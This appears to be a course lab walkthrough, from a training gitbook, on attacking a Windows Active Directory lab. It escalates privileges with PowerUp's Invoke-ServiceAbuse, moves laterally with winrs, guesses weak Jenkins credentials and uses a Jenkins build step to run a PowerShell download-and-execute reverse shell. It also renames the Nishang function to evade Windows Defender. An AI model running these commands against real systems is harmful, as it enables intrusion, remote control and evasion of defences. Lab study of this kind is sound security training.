 # 🆙 Elevate Privileges & gain a shell

For this path we'll use Powerup from PowerSploit module to check for any privilege escalation path. But we could also use WinPEAS.

```
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption><p>This is a snip</p></figcaption></figure>

We quickly see the SeviceName is AbyssWebServer:

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

With this information, we can use the abuse function for Invoke-ServiceAbuse and add our current domain user to the local Administrators group ->

```
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student613' -Verbose
```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Now we are part of the local administrator group. If we just logoff and logon again, and we have local administrator privileges.

Next, a good thing to do could be to identify a machine in the domain where the user student613 has local administrative access. For this we can use `Find-PSRemotingLocalAdminAccess.ps1`

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

So we see that we have Admin access on the dcorp-adminsrv and on the student machine. We can connect to dcorp-adminsrv using winrs as the student user

```
winrs -r:dcorp-adminsrv cmd 
set username 
set computername
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

* `winrs`: Stands for Windows Remote Shell, a command-line tool that allows you to execute commands on a remote machine.
* `-r:dcorp-adminsrv`: Specifies the remote machine to connect to. In this case, `dcorp-adminsrv`.
* `cmd`: Launches the command prompt (`cmd.exe`) on the remote machine.

Knowing all of this; let's try to have fun with a jenkins server without admin access. To do so, we need to have privileges to Configure builds

We start by going to our Jenkins “People” page:

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption><p>we can see the users present on the Jenkins instance</p></figcaption></figure>

It's good to know that Jenkins does not have password policies, so admin:admin of felix:felix could be a valid set of credentials

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

After fooling around we manage to get an access via the builduser user, he can Configure builds and Add Build Steps which will help us in executing commands.

To get our reverse shell we are going to use a slightly modified version of Invoke-PowerShellTcp from Nishang. We renamed the function InvokePowerShellTcp to Power in the script to bypass Windows Defender.

Nishang: [https://github.com/samratashok/nishang/tree/master](https://github.com/samratashok/nishang/tree/master)

We then go in the following path to create and execute a batch command ->

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

> If using Invoke-PowerShellTcp, make sure to include the function call in the script Power -Reverse - IPAddress 172.16.100.X -Port 443 or append it at the end of the command in Jenkins. Please note that you may always like to rename the function name to something else to avoid detection.
>
> powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
>
> or
>
> powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443\
>

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

We then launch our hfs server (could work with python server, upload the invoke tcp file in the hfs directory and then build our project to trigger the script and create a reverse shell

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

```
powershell.exe iex (iwr http://172.16.100.13/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.13 -Port 443 
```
